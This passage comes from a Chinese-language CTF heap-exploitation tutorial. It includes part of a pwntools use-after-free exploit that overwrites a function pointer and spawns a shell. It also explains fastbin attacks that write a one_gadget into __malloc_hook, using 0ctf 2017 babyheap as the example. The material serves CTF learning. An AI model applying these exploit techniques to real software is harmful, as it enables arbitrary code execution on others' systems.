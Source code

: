     def print_note(index):
        sh.recvuntil('Your choice :')
        sh.sendline('3')
        sh.recvuntil('Index :')
        sh.sendline(str(index))

    add_note(0x10, 'test')
    add_note(0x10, 'what')
    delete_note(0)
    delete_note(1)
    # debug()
    add_note(0x8, p32(0x08048986))
    print_note(0)
    sh.interactive()

## fastbin attack

首先要知道`fastbin`的`chunk`的大小范围。

> 32位下，fastbin chunk的范围是16字节 - 64字节（0x10 - 0x40）
> 
> 64位下，fastbin chunk的范围是32字节-128字节（0x20 - 0x80）
> 
> 注意，这是加上header的大小。

`fastbin`方法流程比较简单，即通过某种手段能够控制`fastbin`中的`chunk`的`fd`指针时，将其指向一个想要往其写入数据的地方，这样再次`malloc`这个大小的`chunk`的时候就可以将这个地方分配为`chunk`，达到任意地址写的效果。但是条件如下：

*   fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
*   fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
*   **fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。**
*   fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。
*   fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

要注意，被指向的地方的`chunk header`中的`size`必须满足`fastbin`的要求，即大小和`fastbin`中指向该`fake chunk`的`chunk`大小相同。若无法直接找到，可以利用地址偏移一些来寻找，也可以借助工具，比如`pwndbg`中可以使用`find_fast_chunk addr`来寻找一个可以覆盖掉`addr`地址的`chunk`。

例题是0ctf_2017_nanyheap：

整体思路是使用`unsort bin`泄露`main_arena`（`unsort bin`在只有一个`chunk`的时候`fd`和`bk`都指向`main_arena`的某个固定偏移处），再通过`main_arena`计算偏移得到`libc`和其他函数地址。

之后使用`fastbin attack`来向`__malloc_hook`中写入`one_gadget`算出来的`gadget`即可。注意，本来`malloc_hook`前是没有明显的可以分配的`fastbin`大小的`chunk`的，但是可以通过小部分偏移来得到刚好可以覆盖掉`__malloc_hook`的`chunk`，此处在`pwngdb`使用命令`find_fast_chunk &__malloc_hook`即可。

    # value
    # size
    # pointer -> malloc(size)
    from pwn import *
    from LibcSearcher import *
